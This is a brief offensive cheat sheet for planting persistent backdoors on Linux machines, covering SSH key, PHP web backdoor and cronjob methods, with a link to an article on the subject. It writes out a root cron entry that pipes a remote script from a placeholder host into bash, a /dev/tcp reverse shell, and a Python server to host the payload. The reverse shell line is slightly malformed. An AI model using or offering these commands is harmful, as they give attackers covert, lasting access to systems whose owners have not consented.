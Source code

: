 				SSH BackDoor

-- ssh-keygen                                   Generates ssh key
    -- Leave public key                      	 Place '/home/.ssh'
        -- chmod 600 id_rsa               	  Gives permissions
-- ssh -i id_rsa user@ip                    Use BackDoor

				PHP BackDoor

-- Location                                         /var/www/html 
    -- BackDoor script

-- Where to execute script                https://ip/PHP-BackDoor.php

				Cronjob BackDoor
-- crontab -l
-- Add to Cronjob                               * *     * * *   root    curl http://<IP>:8080/shell | bash
    -- Add Script inside Cronjob            #!/bin/bash
								bash -i >& /dev/tcp/ip/port 8080>&1
-- Get Bash shell

-- Host HTTP server                             python3 -m http.server 8080

				Links

-- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
